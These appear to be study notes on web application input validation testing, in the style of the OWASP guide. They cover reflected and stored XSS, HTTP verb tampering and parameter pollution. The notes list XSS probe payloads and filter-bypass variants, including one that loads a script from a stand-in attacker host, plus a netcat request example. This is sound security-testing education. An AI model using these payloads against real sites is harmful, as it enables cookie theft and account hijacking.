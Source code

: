# Input Validation Testing
## Testing for Reflected Cross Site Scripting
It is not persistent and only impacts users who open a maliciously crafted link. Unvalidated input is sent through requests back to the client. Attacker creates and tests an offending URI (social engineering). Attacker's code is usually in Javascript. Commot attacks install key loggers, steal victim cookies, steal clipboard content, change page content etc.

In some cases, the web server cannot filter some encodings of characters :
eg. `"<script>"` can be filtered, but `"%3cscript%3e"` cannot.

### Tests
1. Detect input vectors - all user defined values and their input has to be determined. Some common hidden, non obvious inputs  are :
   - HTTP parameters
   - POST data
   - hidden form field values
   - predefined radio or selection values
2. Analyze each input vector to detect potential vulnerabilities. Use scpecial crafted input data with each vector. Test data can be generated by a web application fuzzer or a list of knwon attack strings or manually (polyglots).   
   - `<script>alert(document.cookie)</script>`
   - `"><script>alert(document.cookie)</script>`
For more check __XSS Filter Evasion Cheat Sheet__
3. For each test input analyze the result and determine if it represents a vulnerability. If a vulnerability is found, tester identifies any special characters that were not properly filtered.

Examples :
1. check GET parameters - `http://...../index.php?user=<script>alert(document.cookie)</script>`
2. check GET parameters - `http://...../index.php?user=<script>window.onload=function(){alert(document.cookie)}</script>`
3. The user can use input value to fill an attribute - `<input type="text" value="INPUT_FROM_USER">` and then the tester submit `“ onfocus=”alert(document.cookie)`
4. Different syntax or encoding - Insert unexpected variations in the syntax or encoding
   - `"><script>.........</script>`
   - `%3cscript%e alert(document.cookie) %3c/script%3e`
5. Bypassing non recursive filtering - Often input sanitization is _applied only once_
   - `<scr<script>ipt> alert(document.cookie) </script>`
6. Including external script - Assume that there is a regular expression checking if "<script*" (_anything but >_) is inserted. eg `<script src="http://....../xss.js"></script>` - bypass this by using the ">" character in an attribute between _script_ and _src_
   - `http://example/?var=<SCRIPT%20a=”>”%20SRC=”http://attacker/xss.js”></SCRIPT>`
7. HTTP Parameter Pollution - Splitting the attack vector between multiple parameters that have the same name
   - regular attack - `http://example/page.php?param=<script>...</script>`
   - using HPP - `http://example/page.php?param=<script&param=>...</&param=script>`

### Tools
- OWASP CAL9000
- PHP Charset encoder
- HackVector
- XSS_Proxy
- Ratproxy
- Burp
- OWASP Zed Attack Proxy
- OWASP Xenotic XSS Expoloit Framework

## Testing for Stored Cross Site Scripting
When malicious inout is stored for late use. This malicious code will appear as of the website and run within the user's browser under the privileges of the web app. It includes at least two requests to the application and is also called second-order XSS.

Stored XSS does not need a malicious link to be exploited. A typical scenario has the following phases :
- attacker stores malicious code into the vulnerable page
- user authenticates in the platform
- user visits vulnerable page
- malicious code is executed by the user's browser

### Tests
- Identify all points where user input is stored into the backend and then displayed by the application. For example
  - user profile
  - shopping cart
  - application file manager (if file upload is allowed)
  - application settings/ preferences
  - forum/message board
  - blog (comments)
  - log (if it stores some user input into logs)
- Determine if input is stored and how it is positioned in the context of the page (html tag for javascript)
- All the out-of-band channels through which the application receives and stores user input

Examples :
`<input class=..... type="text" name="email" value="aaa@aaa.bb"/>`
The tester needs to find a way to inject code outside the input tag
`<...>malicious code<!--  /> `

eg
`aaa@aaa.bb"><script>alert(document.cookie)</script>`

If "script" is replaced by space or null then the tester should examine the app for *XSS filtering*
Stored XSS can be exploited by advanced Javascript exploitation framerwords (BeEF, XSS Proxy, BackFrame)

### File upload
Check if the web app allows file upload with html or text content. Text files, jpg and gif can contain XSS payload
#### Image file contents
mpla mpla mpla <script>alert(document.cookie)</script>

### Tools
- OWASP CAL9000
- PHP Charset Encoding (PCE)
- HackVector
- BeEF
- XSS-Proxy
- BackFrame
- XSS Assistant
- Burp Suite
- XSS Filter Evasion Cheat Sheet

## Testing for HTTP Verb Tampering
HTTP specifications includes request methods other than the standard GET and POST, Many servers may respond to these alternative methods with not anticipated results.
Valid HTTP request methods are:
- OPTIONS
- GET
- HEAD
- POST
- PUT
- DELETE
- TRACE
- CONNECT
WebDAV extensions also permit
- PROPFIND
- PROPMATCH
- MKCOL
- COPY
- MOVE
- LOCK
- UNLOCK

Standard *href* links trigget a GET request. Form data (with method='POST' trigger
POST requests). Forms without method trigger GET requests.
HTML standard **DOES NOT** support other methods. All other methods need to be called outside
the html document. Javascript and AJAX allow other methods.

### Tests
Craft custom HTTP requests - preferably use a tool

### Manual HTTP verb tampering Testing
Use netcat package (or telnet)
1. Crafting custom HTTP requests. Each HTTP 1.1 request follows basic formatting and syntax. Type each request into *netcat* or *telnet* and examine the response.
  ```
  [METHOD]/[index.html]HTTP/1.1
  host:[www.example.com]
  ```
  where  METHOD can use OPTIONS, GET, HEAD, POST, PUT, DELETE, TRACE or CONNECT
2. Send the request (`nc host 80 < OPTIONS.http.txt`)
3. Parse HTTP responses. Except GET and POST, server must **either ignore the request or return error**. Any other method should be disabled

## Testing for HTTP Parameter Pollution (HPP)
Supplying multiple params with the same name may confuse the application. Anomalous behaviour can lead to a potential exploit.
- Input validation and filters bypass
- Authentication bypass
- Expected behaviour by Application server

*HTTP parameters assignment is being handled by the web server and not the web application. So, testing HPP requires manual testing.*
**HPP can manifest itself in client side and server side components.**

## Testing for SQL Injection
### Detection Techniques
### Exploitation Rechniques
